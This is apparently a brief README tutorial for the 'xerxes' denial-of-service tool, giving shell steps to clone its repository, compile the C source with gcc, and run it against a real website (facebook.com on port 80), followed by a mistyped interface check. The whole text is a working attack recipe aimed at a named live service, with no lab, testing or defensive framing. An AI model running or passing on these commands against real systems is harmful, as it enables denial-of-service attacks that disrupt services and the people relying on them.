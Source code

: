 ## DDOS using ( xerxes )

### Step 1 ( installation )

```shell

git clone https://github.com/Soldie/xerxes-DDos-zanyarjamal-C

cd xerxes-DDos-zanyarjamal-C

```

### Step 2 ( run xerxes c program )

```shell

# compile c program

gcc xerxes.c -o xerxes

## the c program

./xerxes facebook.com 80


```

### Step 3 ( check total size of the packet )

```shell

# check the TX package size

ifocnfig

```
